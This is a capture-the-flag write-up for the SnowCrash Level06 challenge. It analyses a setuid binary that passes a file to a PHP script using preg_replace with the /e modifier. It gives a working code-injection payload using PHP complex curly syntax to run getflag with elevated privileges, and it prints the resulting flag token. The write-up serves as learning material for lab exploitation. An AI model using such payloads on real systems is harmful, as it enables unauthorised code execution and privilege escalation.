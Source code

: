 # Level06


# context

after loged in with user `level06` to files pops up in home dir
```
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
level06@SnowCrash:~$
```

# steps to repreduce

when execute the file `level06` an error pops up
```
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$
```

I noted that this executeable take a file as an argement pass it to the `level06.php` to read it's content

let's test this:
```
level06@SnowCrash:~$ echo "this is a test" > /tmp/test.txt
level06@SnowCrash:~$ ./level06 /tmp/test.txt
this is a test
level06@SnowCrash:~$
```

now let's see the content of the second file `level06.php`.

```
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
level06@SnowCrash:~$
```

The given code appears to be a PHP script. Here's a breakdown of what it does:

The first line, `#!/usr/bin/php`, is called a shebang and specifies the interpreter to be used for executing the script, in this case, PHP.

The script starts with the opening <?php tag, indicating the beginning of PHP code.

The code defines two functions:

a. The `y()` function takes a parameter `$m`, performs two replacements on it, and returns the modified string. The first replacement replaces each occurrence of a dot (.`) with the string "`x`", and the second replacement replaces each occurrence of an at symbol (`@`) with the letter "`y`".

b. The `x()` function takes two parameters, `$y` and `$z`, and performs several operations on a file specified by `$y`. It reads the contents of the file using `file_get_contents()`, performs a regular expression replacement using `preg_replace()` on any occurrence of `[x ...]`, and invokes the `y()` function with the captured value (`\\2`). It then performs two more replacements, replacing each `[` character with `(` and each `]` character with `)`. Finally, it returns the modified string.

The next line of code `$r = x($argv[1], $argv[2]);` calls the `x()` function, passing two command-line arguments (`$argv[1]` and `$argv[2]`) to it. The script likely expects two command-line arguments to be provided when executing the script.

The last line print `$r`; outputs the value stored in the variable `$r`.

> In summary, this script reads the contents of a file specified as the first command-line argument, 
> performs some string replacements on it using the y() and x() functions, and then prints the modified string.

> the `/e` modifier in the `preg_replace()` function within the `x()` function can be potentially unsafe 
> if the replacement expression is derived from user input. The `/e` modifier allows the replacement expression to be evaluated as PHP code,
> which can lead to code injection vulnerabilities if the input is not properly validated or sanitized.

so we can pass shell command inside a file then send it to the `level06` executeable, the the scrip will run the command in the file with the `flag06` privilege.

but ofc not that easy so we had to use the [Complex (curly) syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex) to atchive what we want.

the final payload: ``echo '[x ${`getflag`}]' > /tmp/getflag``

then run this command: 
```
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$
```


